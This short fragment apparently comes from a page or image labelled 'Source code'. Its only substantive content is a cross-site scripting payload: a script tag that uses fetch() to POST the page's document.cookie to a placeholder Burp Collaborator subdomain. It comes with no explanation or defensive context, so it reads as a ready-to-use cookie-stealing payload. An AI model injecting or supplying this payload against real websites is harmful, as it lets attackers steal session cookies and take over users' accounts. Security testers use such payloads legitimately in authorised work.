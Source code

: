 
```<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>```